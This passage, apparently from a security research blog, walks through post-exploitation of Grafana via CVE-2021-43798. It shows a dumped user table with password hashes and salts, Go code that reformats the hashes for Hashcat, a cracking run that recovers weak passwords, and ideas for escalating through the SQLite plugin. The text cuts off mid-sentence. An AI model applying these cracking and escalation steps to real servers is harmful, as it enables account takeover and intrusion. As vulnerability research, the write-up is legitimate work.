 salts:\\n\\n\`\`\`\\nsqlite> select \* from user;\\nid|version|login|email|name|password|salt|rands|company|org\_id|is\_admin|email\_verified|theme|created|updated|help\_flags1|last\_seen\_at|is\_disabled\\n1|0|admin|admin@localhost||e21680070fb3a72d8cac29819eb74ddbee669a9d362dea5c4674d8287e4a1df22424fcdd00ab0cc8230d4249296adc2adca8|NcgfTdzwPc|wXslOqTqT0||1|1|0||2023-02-09 23:12:45|2023-02-13 21:25:51|0|2023-02-13 21:25:26|0\\n2|0|viewer|viewer|Jake|18e6160a5e7e03a7dea259195b27543c2d1b515e4490867c73ffb6214d08f77163ecc0f58321a40deb300ec563c15a327733|13CdHYK4Xl|z5w6xlWQWI||1|0|0||2023-02-10 18:02:31|2023-02-13 21:27:21|0|2023-02-13 21:26:56|0\\n3|0|ro|ro|ro|20ae2e2828c004ef4638f6d490a23aa9956cc4bfeb1db60abd18930f97099782037c6861518b466e20addc36dfda5f564d78|bhhVgTns9o|w2lzkKgwWN||1|0|0||2023-02-10 18:17:14|2023-02-13 21:26:39|0|2023-02-13 21:26:24|0\\n\`\`\`\\n\\nThe hashes are created using PBKDF2-HMAC-SHA256. See lines 145-148 of \[grafana/blob/main/pkg/util/encryption.go\](https://github.com/grafana/grafana/blob/main/pkg/util/encryption.go#L145):\\n\\n\`\`\`go\\n// Key needs to be 32bytes\\nfunc encryptionKeyToBytes(secret, salt string) (\[\]byte, error) {\\n return pbkdf2.Key(\[\]byte(secret), \[\]byte(salt), 10000, 32, sha256.New), nil\\n}\\n\`\`\`\\n\\nPBKDF2-HMAC-SHA256 is an algorithm understood by \[Hashcat\](https://hashcat.net/hashcat/), the password cracking tool. The Grafana user table just needs to be transformed into a format that Hashcat can read. This is achieved with a small amount of Go:\\n\\n\`\`\`go\\n// grab the usernames, passwords and salts from the downloaded db\\nrows, err := db.Query("select email,password,salt,is\_admin from user")\\nif err != nil {\\n return\\n}\\ndefer rows.Close()\\n\\nfor rows.Next() {\\n var email string\\n var password string\\n var salt string\\n err = rows.Scan(&email, &password, &salt)\\n if err != nil {\\n return false\\n }\\n\\n decoded\_hash, \_ := hex.DecodeString(password)\\n hash64 := b64.StdEncoding.EncodeToString(\[\]byte(decoded\_hash))\\n salt64 := b64.StdEncoding.EncodeToString(\[\]byte(salt))\\n \_, \_ = hash\_file.WriteString("sha256:10000:" + salt64 + ":" + hash64 + "\\n")\\n}\\n\`\`\`\\n\\nThe example code above will transform the previously shown \`user\` table into the following Hashcat-ingestable hashes:\\n\\n\`\`\`\\nsha256:10000:TmNnZlRkendQYw==:4haABw+zpy2MrCmBnrdN2+5mmp02LepcRnTYKH5KHfIkJPzdAKsMyCMNQkkpatwq3Kg=\\nsha256:10000:MTNDZEhZSzRYbA==:GOYWCl5+A6feolkZWydUPC0bUV5EkIZ8c/+2IU0I93Fj7MD1gyGkDeswDsVjwVoydzM=\\nsha256:10000:YmhoVmdUbnM5bw==:IK4uKCjABO9GOPbUkKI6qZVsxL/rHbYKvRiTD5cJl4IDfGhhUYtGbiCt3Dbf2l9WTXg=\\n\`\`\`\\n\\nAt this point, it’s useful to know that Grafana \[doesn’t enforce\](​​https://community.grafana.com/t/minimum-password-requirements/62819) any type of password complexity requirements. The sole requirement is that a password must be four characters or longer. The likelihood of a bad password is quite high. As a contrived example, we provide the hashes from our test Grafana server to Hashcat along with a standard password dictionary, and recover two passwords:\\n\\n\`\`\`sh\\nalbinolobster@mournland:~$ hashcat -m 10900 10.9.49.222\_3000\_hashes.txt rockyou.txt -o cracked.out\\nalbinolobster@mournland:~$ cat cracked.out\\nsha256:10000:YmhoVmdUbnM5bw==:IK4uKCjABO9GOPbUkKI6qZVsxL/rHbYKvRiTD5cJl4IDfGhhUYtGbiCt3Dbf2l9WTXg=:password\\nsha256:10000:TmNnZlRkendQYw==:4haABw+zpy2MrCmBnrdN2+5mmp02LepcRnTYKH5KHfIkJPzdAKsMyCMNQkkpatwq3Kg=:iloveyou\\n\`\`\`\\n\\nExfiltrating the SQLite database, extracting password hashes, and cracking them seems to be a reasonable approach for gaining access into the Grafana Web UI. To me, this is obviously better than exfiltrating \`grafana.ini\` and likely better than focusing on the \`data\_source\` table.\\n\\n## Expanding Access\\n\\nThe obvious question now is, “What do Web UI credentials get me?” Surprisingly, even with an admin account, not much. We did solve one problem. The Grafana server should have access to all data source servers, so we should be able to proxy attacks (e.g. PostgreSQL command execution) through the Grafana server. But otherwise, a lot of administrative functionality is built into the Grafana CLI tool and excluded from the web interface (as we can see, rightly so). There is one useful feature an administrator has access to in the web UI: installing plugins from the \[Grafana Catalog\](https://grafana.com/grafana/plugins/).\\n\\nOne plugin that proves useful is the SQLite plugin.\\n\\n!\[Grafana Probes\](/blog/grafana-cve-2021-43798/grafana-sqlite-plugin.png){:width="100%"}\\n\\nThis blog is centered around exfiltrating Grafana’s SQLite database. Exfiltration with CVE-2021-43798 gave us read access to the database. The SQLite plugin gives us full write access to the Grafana database.\\n\\n!\[Grafana SQLite Data Source\](/blog/grafana-cve-2021-43798/sqlite-data-source.png){:width="100%"}\\n\\nBeing able to arbitrarily modify the Grafana database doesn’t lead to any obvious code execution opportunities (that we saw). But SQLite has a couple of interesting features that could potentially result in code execution. The first feature we looked at was \`load\_extension\`. This \[function\](https://www.sqlite.org/lang\_corefunc.html#load\_extension) could allow us to load and execute a shared object. However, the Grafana plugin has this feature disabled:\\n\\n!\[Grafana Load Extension Attempt\](/blog/grafana-cve-2021-43798/load-extension.png){:width="100%"}\\n\\nThe other potentially abusable SQLite feature is an arbitrary file write using \`attach database\`. The \[created file\](https://www.sqlite.org/lang\_attach.html) will be an sqlite3 database, but others have achieved code execution with this method by targeting loose file formats (e.g. PHP). Grafana is largely Go-based (and has no association with PHP) but we can at least establish the arbitrary file write works. Below we attempt to